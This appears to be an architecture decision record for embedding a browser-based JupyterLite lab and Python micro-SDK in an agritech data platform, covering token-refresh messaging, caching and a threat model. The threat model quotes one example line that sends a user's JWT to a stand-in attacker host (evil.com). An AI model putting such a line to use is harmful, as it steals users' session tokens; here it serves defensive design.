

# ADR 004: JupyterLite Scientific Lab and Micro-SDK (Zero Backend Compute)

## Status

**Accepted** — implementation in `nkz-module-datahub/jupyterlite/`.

## Context

- Agronomists and data scientists need ML, regression, and statistical analysis on platform telemetry (soil moisture, GDD, weather).
- Running Jupyter kernels on K3s would impose unbounded compute costs on a single-node cluster with no autoscaling.
- Pyodide (CPython compiled to WebAssembly) and JupyterLite provide a full Python environment in the browser with zero server-side compute.
- ADR 003 established PATs for read-only telemetry access — the Micro-SDK should leverage this for headless (non-browser) use.

## Decision

### 1. Deployment topology (static assets, zero containers)

JupyterLite is a static site. No Docker containers, no backend pods.

| Step | Action |
|------|--------|
| **Build** | `jupyter lite build` in CI (GitHub Actions on `nkz-module-datahub`) produces HTML + JS + WASM + Python wheel artifacts |
| **Upload** | CI uploads build output to MinIO bucket `s3://nekazari-static/jupyterlite/` |
| **Serve** | Existing `frontend-static-service` (MinIO) serves `/jupyterlite/` via the main `nekazari-ingress` |
| **Embed** | DataHub module renders `<iframe src="/jupyterlite/lab/index.html">` in a "Laboratorio" tab |

**Same-origin**: JupyterLite is served under `nekazari.robotika.cloud/jupyterlite/`, which is the **same origin** as the API Gateway (`nekazari.robotika.cloud/api/...` via `nkz.robotika.cloud` proxy) and the DataHub frontend. This eliminates CORS configuration entirely — `fetch()` from Pyodide is same-origin.

Build artifacts live in the module repo:

```
nkz-module-datahub/
├── jupyterlite/
│   ├── requirements.txt        # pandas, pyarrow (bundled); scikit-learn (lazy)
│   ├── nekazari.py             # Micro-SDK
│   ├── jupyter_lite_config.json
│   └── notebooks/              # Pre-loaded read-only templates
│       ├── 00_bienvenido_a_nekazari.ipynb
│       ├── 01_calculo_grados_dia_acumulados.ipynb
│       └── 02_entrenamiento_ml_rendimiento.ipynb
├── src/                        # Frontend React (IIFE)
├── backend/                    # BFF (FastAPI)
└── ...
```

### 2. Authentication: bidirectional postMessage with continuous refresh

JWTs expire in 5-15 minutes. Scientists work in notebooks for hours. A single token injection is insufficient.

**Protocol**:

```
┌─────────────────────┐                    ┌──────────────────────────┐
│  DataHub (parent)    │                    │  JupyterLite (iframe)    │
│                      │                    │                          │
│                      │  1. iframe loads   │                          │
│                      │◄───────────────────│  NKZ_JUPYTER_READY       │
│                      │                    │                          │
│  keycloak.updateToken│  2. inject token   │                          │
│  → fresh JWT         │───────────────────►│  NKZ_AUTH_INJECT         │
│                      │                    │  → os.environ['NKZ_JWT'] │
│                      │                    │                          │
│                      │  3. before request │                          │
│                      │◄───────────────────│  NKZ_TOKEN_REQUEST       │
│                      │                    │                          │
│  keycloak.updateToken│  4. fresh token    │                          │
│  → fresh JWT         │───────────────────►│  NKZ_AUTH_INJECT         │
│                      │                    │  (repeat 3-4 on demand)  │
└─────────────────────┘                    └──────────────────────────┘
```

| Message | Direction | Payload | Origin check |
|---------|-----------|---------|--------------|
| `NKZ_JUPYTER_READY` | iframe → parent | `{}` | Parent checks `event.origin === window.location.origin` |
| `NKZ_TOKEN_REQUEST` | iframe → parent | `{}` | Parent checks `event.origin === window.location.origin` |
| `NKZ_AUTH_INJECT` | parent → iframe | `{ token: string }` | iframe checks `event.origin === window.location.origin` |

**Implementation in DataHub React** (parent):

```typescript
useEffect(() => {
  const handler = (e: MessageEvent) => {
    if (e.origin !== window.location.origin) return;
    if (e.data?.type === 'NKZ_JUPYTER_READY' || e.data?.type === 'NKZ_TOKEN_REQUEST') {
      keycloakRef.current?.updateToken(30).then(() => {
        iframeRef.current?.contentWindow?.postMessage(
          { type: 'NKZ_AUTH_INJECT', token: keycloakRef.current?.token },
          window.location.origin
        );
      });
    }
  };
  window.addEventListener('message', handler);
  return () => window.removeEventListener('message', handler);
}, []);
```

**Implementation in JupyterLite** (init script injected at build time):

```javascript
// jupyterlite_init.js — runs once when Pyodide kernel is ready
window.addEventListener('message', (e) => {
  if (e.origin !== window.location.origin) return;
  if (e.data?.type === 'NKZ_AUTH_INJECT' && e.data.token) {
    pyodide.runPython(`import os; os.environ['NKZ_JWT'] = '${e.data.token}'`);
  }
});
window.parent.postMessage({ type: 'NKZ_JUPYTER_READY' }, window.location.origin);
```

### 3. Micro-SDK (`nekazari.py`)

A single-file Python module pre-packaged in the JupyterLite build. Uses `pyodide.http.pyfetch` (native WASM fetch) instead of `requests` (which has limitations in browser WASM).

**Dual-mode authentication** (synergy with ADR 003):

```python
# Mode detection: JupyterLite (WASM) vs local Jupyter
import os, sys

def _get_token() -> str:
    """Return fresh JWT (WASM) or static PAT (local)."""
    jwt = os.environ.get('NKZ_JWT', '')
    if jwt:
        return jwt
    pat = os.environ.get('NKZ_PAT', '')
    if pat:
        return pat
    raise RuntimeError(
        "No authentication configured. "
        "In JupyterLite: token is injected automatically. "
        "In local Jupyter: set NKZ_PAT='nkz_pat_...' environment variable."
    )

def _is_wasm() -> bool:
    return 'pyodide' in sys.modules

async def _fetch(url, **kwargs):
    """Unified fetch: pyodide.http.pyfetch in WASM, httpx in local."""
    if _is_wasm():
        from pyodide.http import pyfetch
        return await pyfetch(url, **kwargs)
    else:
        import httpx
        async with httpx.AsyncClient(timeout=60) as c:
            return await c.request(**kwargs, url=url)
```

**Core API surface**:

```python
import nekazari as nkz

# Timeseries query → pandas DataFrame (Arrow zero-copy in WASM)
df = await nkz.timeseries.get_dataframe(
    device_id="120786a0cf364796",
    attributes=["soilMoisture", "airTemperature"],
    start_date="2026-01-01",
    end_date="2026-03-28",
)

# Entity listing (reads from Orion-LD via gateway)
parcels = await nkz.entities.list(type="AgriParcel")

# Platform info
nkz.info()  # prints tenant, API URL, auth mode (jwt/pat), SDK version
```

**Arrow integration**: `POST /api/timeseries/v2/query` with `Accept: application/vnd.apache.arrow.stream` returns binary Arrow IPC. The SDK uses `pyarrow.ipc.open_stream()` to produce a `pandas.DataFrame` in O(1) via shared memory — no JSON parsing overhead.

### 4. Caching strategy and lazy loading

A full JupyterLite build with `pandas + pyarrow + scikit-learn` weighs **80-150 MB**. This must not be downloaded on every page load.

**Service Worker caching**:

JupyterLite ships with a built-in Service Worker. Assets are served with:
- WASM binaries (`.wasm`): `Cache-Control: public, max-age=31536000, immutable`
- Python wheels (`.whl`): `Cache-Control: public, max-age=86400`
- HTML/JS: `Cache-Control: public, max-age=3600`

MinIO bucket policy must set these headers. After first load, subsequent visits use the Service Worker cache (~0 network for WASM).

**Lazy wheel loading via `micropip`**:

| Package | Strategy | Reason |
|---------|----------|--------|
| `pandas` | **Pre-bundled** | Core dependency, used in every notebook |
| `pyarrow` | **Pre-bundled** | Required for Arrow IPC decoding (SDK core) |
| `nekazari` | **Pre-bundled** | The Micro-SDK itself |
| `scikit-learn` | **Lazy** (`micropip.install`) | Heavy (~15 MB), only needed for ML notebooks |
| `matplotlib` | **Lazy** | Only needed for custom plotting (uPlot covers most cases) |
| `scipy` | **Lazy** | Statistical tests, not every session |

Pre-bundled packages are compiled into the JupyterLite distribution at build time. Lazy packages are installed on-demand within notebooks:

```python
# In notebook 02_entrenamiento_ml_rendimiento.ipynb:
import micropip
await micropip.install('scikit-learn')
from sklearn.ensemble import RandomForestRegressor
```

This keeps the base distribution at **~40-50 MB** (pandas + pyarrow + nekazari) with heavy ML libraries loaded only when needed.

### 5. Pre-loaded workspace (tutorial notebooks)

The build includes read-only template notebooks in a virtual filesystem:

| Notebook | Content | Packages |
|----------|---------|----------|
| `00_bienvenido_a_nekazari.ipynb` | Platform intro, `nkz.info()`, first query, `df.describe()` | pandas, nekazari |
| `01_calculo_grados_dia_acumulados.ipynb` | GDD accumulation from `airTemperature`, seasonal plots | pandas, nekazari |
| `02_entrenamiento_ml_rendimiento.ipynb` | Yield prediction with RandomForest on soil + weather features | pandas, nekazari, scikit-learn (lazy) |

Users can duplicate and modify these. Changes persist in browser IndexedDB (JupyterLite default storage).

---

## Threat model

### Trust boundaries



### Threat analysis

| Threat | Analysis | Mitigation |
|--------|----------|------------|
| **Token exfiltration from iframe** | Any code in the iframe (including user-written Python) can access the JWT via `os.environ['NKZ_JWT']`. **This is inherent and acceptable**: the user is authenticated and running their own code — the token is theirs. | Same-origin isolation prevents third-party iframes from reading it. The token is short-lived (Keycloak expiry). |
| **Malicious shared notebook** | A notebook shared between users could contain code that exfiltrates the reader's token (e.g. `fetch('https://evil.com', { body: os.environ['NKZ_JWT'] })`). | Notebooks execute in the **reader's** browser with **their** token — this is the same trust model as browser DevTools. Warn users not to run untrusted notebooks (same as standard Jupyter security model). Future: CSP `connect-src` whitelist on the JupyterLite path. |
| **`os.environ` is not real isolation** | In Pyodide, `os.environ` is a Python dict in WASM linear memory. JS in the same frame can access it via `pyodide.runPython(...)`. The "delete from JS scope" step described in some designs is **security theater**. | We do not claim memory isolation. The real security boundary is **origin control**: the iframe is same-origin, served from our MinIO, and the user is already authenticated. The token is theirs to use. |
| **Cross-origin postMessage spoofing** | A malicious page could attempt to send `NKZ_AUTH_INJECT` to the iframe. | Both sides verify `event.origin === window.location.origin`. Same-origin deployment makes spoofing impossible without compromising the origin itself. |
| **Token refresh failure** | Keycloak session expires while user is in notebook (e.g. after hours). `updateToken()` fails. | SDK catches 401 from API, sends `NKZ_TOKEN_REQUEST`. If parent cannot refresh, user sees an auth error in the notebook output — not a silent failure. DataHub can show a re-login prompt. |
| **WASM sandbox escape** | Theoretical Pyodide/V8 vulnerability allowing WASM to escape the browser sandbox. | Out of scope — this is a browser engine vulnerability, not platform-specific. Same risk as any JS execution. |
| **Denial of service (heavy computation)** | User runs expensive ML training that freezes the browser tab. | Runs in **their** browser only — no cluster impact. Browser can kill the tab. No platform-side mitigation needed. |

### Content-Security-Policy for the iframe

The iframe **requires** these sandbox attributes to run Pyodide:

```html
<iframe
  src="/jupyterlite/lab/index.html"
  sandbox="allow-scripts allow-same-origin allow-downloads allow-popups"
/>
```

**`allow-scripts` + `allow-same-origin` together** means the iframe has full DOM access to its own origin. This is safe because:
1. The iframe content is **our own** static build from MinIO (not user-uploaded)
2. Same-origin means the iframe could already access anything the parent can — the sandbox does not add security in this configuration, but we specify it for documentation clarity
3. User-written Python runs inside WASM, not as arbitrary DOM script injection

**Do NOT** serve untrusted third-party content (user-uploaded HTML/JS) from the same `/jupyterlite/` path.

---

## CORS

**Not required.** Same-origin deployment means all `fetch()` calls from Pyodide to `/api/...` are same-origin requests. No preflight, no `Access-Control-*` headers needed.

If in the future JupyterLite is moved to a separate subdomain (e.g. `lab.nekazari.robotika.cloud`), CORS must be configured on the API Gateway with an **explicit origin whitelist** — never `*`.

---

## Integration with ADR 003 (PAT)

The Micro-SDK supports two authentication modes transparently:

| Mode | Environment | Token source | Refresh |
|------|-------------|-------------|---------|
| **Interactive (WASM)** | JupyterLite in browser | JWT via `postMessage` from parent | On-demand via `NKZ_TOKEN_REQUEST` |
| **Headless (local)** | Standard Jupyter / script | PAT from `NKZ_PAT` env var | N/A (PAT is long-lived) |

PATs are restricted to `/api/timeseries` (ADR 003 scope). This covers the primary SDK use case (timeseries queries for analytics). Entity listing (`/api/entities`) requires a JWT — available in WASM mode only.

---

## Consequences

**Positive**:
- Zero cluster compute cost for analytics workloads
- Full Python ecosystem (pandas, scikit-learn, statsmodels) without backend pods
- PAT dual-mode gives scientists the same SDK experience locally and in-browser
- Same-origin eliminates CORS complexity
- Service Worker caching makes subsequent loads near-instant

**Negative**:
- First load is heavy (~40-50 MB base, more with lazy packages) — requires good network
- JupyterLite's IndexedDB storage is per-browser — no cross-device notebook sync in v1
- Pyodide does not support all Python packages (C extensions must be compiled to WASM)
- `scikit-learn` and `scipy` WASM builds may lag upstream versions

---

## Implementation plan

| Phase | Scope | Repo |
|-------|-------|------|
| **1. Build pipeline** | `jupyterlite/` directory, `jupyter_lite_config.json`, CI workflow, MinIO upload | `nkz-module-datahub` |
| **2. Micro-SDK** | `nekazari.py` with timeseries + entities + dual-mode auth | `nkz-module-datahub` |
| **3. postMessage handshake** | DataHub React component (Lab tab), iframe mounting, token refresh loop | `nkz-module-datahub` |
| **4. Tutorial notebooks** | 3 template notebooks (intro, GDD, ML) | `nkz-module-datahub` |
| **5. MinIO ingress** | Add `/jupyterlite/` path to `nekazari-ingress` if not already covered by `/modules` | `nkz` (core) |

---

## References

- ADR 003: `internal-docs/adr/003-pat-delegated-auth.md` (PAT scope, gateway delegation)
- JupyterLite: https://jupyterlite.readthedocs.io/
- Pyodide: https://pyodide.org/
- Platform timeseries v2: `internal-docs/api/timeseries-reader-v2-openapi.yaml`
- DataHub module: `nkz-module-datahub/`
